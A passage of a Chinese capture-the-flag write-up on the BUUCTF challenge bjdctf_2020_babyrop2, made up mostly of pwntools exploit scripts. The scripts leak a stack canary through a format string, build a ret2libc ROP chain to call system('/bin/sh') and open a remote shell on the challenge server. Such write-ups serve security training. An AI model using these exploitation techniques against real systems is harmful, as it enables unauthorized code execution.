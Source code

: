 ```python

read = u64(io.recv(8))

libc = LibcSearcher('read', read)
base = read - libc.dump('read')
sys = base + libc.dump('system')
binsh = base + libc.dump('str_bin_sh')

payload = cyclic(128 + 8)
payload += p64(poprdi_ret)
payload += p64(binsh)
payload += p64(sys)

io.sendlineafter(b'Input:\n', payload)

io.interactive()
```
# buu037-bjdctf_2020_babyrop2
用gdb调试发现本题环境中所有函数的canary都相同，于是首先泄露canary然后栈溢出完事。
```python
from pwn import *
from LibcSearcher import *
context.log_level='debug'

poprdi_ret = 0x400993

# io = process('./pwn')
io = remote('node4.buuoj.cn', 25313)
elf = ELF('./pwn')

io.sendlineafter(b'I\'ll give u some gift to help u!\n', b'%7$llx')

canary = int(io.recv(16), 16)
print(hex(canary))

payload = cyclic(0x18)
payload += p64(canary)
payload += p64(0xdeadbeef)
payload += p64(poprdi_ret)
payload += p64(elf.got['puts'])
payload += p64(elf.plt['puts'])
payload += p64(elf.symbols['vuln'])

io.sendlineafter(b'Pull up your sword and tell me u story!\n', payload)
puts = u64(io.recv(6) + b'\x00\x00')
libc = LibcSearcher('puts', puts)
base = puts - libc.dump('puts')
sys = base + libc.dump('system')
binsh = base + libc.dump('str_bin_sh')

payload = cyclic(0x18)
payload += p64(canary)
payload += p64(0xdeadbeef)
payload += p64(poprdi_ret)
payload += p64(binsh)
payload += p64(sys)

io.sendline(payload)

io.interactive()
```